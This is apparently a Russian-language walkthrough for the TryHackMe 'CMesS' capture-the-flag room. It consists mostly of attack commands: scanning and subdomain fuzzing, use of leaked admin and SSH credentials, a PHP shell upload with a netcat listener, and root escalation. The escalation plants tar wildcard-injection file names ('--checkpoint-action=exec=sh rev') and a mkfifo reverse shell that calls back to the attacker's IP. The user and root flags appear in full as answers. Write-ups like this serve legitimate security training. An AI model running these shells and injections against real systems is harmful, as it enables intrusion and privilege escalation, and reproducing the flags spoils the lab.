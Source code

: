 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [CMesS](https://tryhackme.com/r/room/cmess) 

Всего 1 заданиe:
## Задание 1
Пожалуйста, добавьте MACHINE_IP cmess.thmв /etc/hosts

Обратите внимание, что этот ящик не требует грубой силы!

### Ответьте на вопросы ниже
+ 30
Скомпрометируйте эту машину и получите user.txt
```commandline
nmap -sSCV <IP>
curl -s <IP>/robots.txt

vim /etc/hosts
<IP> cmess.thm

/data/src/dirsearch/dirsearch.py -u http://cmess.thm/ -E -w /data/src/wordlists/directory-list-2.3-medium.txt
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" --hw 290

vim /etc/hosts
<IP> cmess.thm
<IP> dev.cmess.thm

curl -s dev.cmess.thm | html2text

URL: http://cmess.thm/admin/
Email: andre@cmess.thm
Password: KPFTN_f2yxe%

shell.php
nc -nlvp 4444
cat /opt/.password.bak
ssh andre@<IP>
andre:UQfsdCB7aAP6
cat user.txt 
```
```commandline
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
```
+ 50
Повысьте свои привилегии и получите root.txt    
```commandline
cat > /home/andre/backup/rev << EOF
#!/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f|/bin/sh -i 2>&1|nc <my_own_IP> 4444 >/tmp/f
EOF


echo "" > "/home/andre/backup/--checkpoint=1"
echo "" > "/home/andre/backup/--checkpoint-action=exec=sh rev"
nc -nlvp 4444
cat /root/root.txt
```
```commandline
thm{9f85b7fdeb2cf96985bf5761a93546a2}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)